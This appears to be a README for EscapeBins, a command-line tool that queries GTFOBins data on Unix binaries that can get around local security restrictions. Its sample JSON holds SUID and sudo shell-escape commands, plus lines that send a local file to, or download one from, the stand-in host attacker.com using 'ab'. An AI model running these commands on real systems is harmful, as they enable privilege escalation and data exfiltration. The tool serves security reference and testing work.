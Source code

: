 EscapeBins is a command-line tool designed for interacting with and displaying entries from GTFOBins, a project that documents Unix binaries that can be used to bypass local security restrictions. Below is an introduction and breakdown of the script:

### Overview

The script provides functionality for searching, displaying, and generating reports on GTFOBins entries. It uses a JSON data file (`binaries.json`) that contains information on various binaries, including their descriptions and associated functions that can be exploited for security purposes. Users can list available binaries, generate reports, or query specific binaries through command-line arguments.

The JSON file must have a structure similar to the following:

```json
{
    "aa-exec": {
		"functions": {
			"shell": [
				{
					"code": "aa-exec /bin/sh"
				}
			],
			"suid": [
				{
					"code": "./aa-exec /bin/sh -p"
				}
			],
			"sudo": [
				{
					"code": "sudo aa-exec /bin/sh"
				}
			]
		}
	},
	"ab": {
		"functions": {
			"file-upload": [
				{
					"description": "Upload local file via HTTP POST request.",
					"code": "URL=http://attacker.com/\nLFILE=file_to_send\nab -p $LFILE $URL"
				}
			],
			"file-download": [
				{
					"description": "Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.",
					"code": "URL=http://attacker.com/file_to_download\nab -v2 $URL"
				}
			],
			"suid": [
				{
					"description": "Upload local file via HTTP POST request.",
					"code": "URL=http://attacker.com/\nLFILE=file_to_send\n./ab -p $LFILE $URL"
				}
			],
			"sudo": [
				{
					"description": "Upload local file via HTTP POST request.",
					"code": "URL=http://attacker.com/\nLFILE=file_to_send\nsudo ab -p $LFILE $URL"
				}
			]
		}
	}
}
```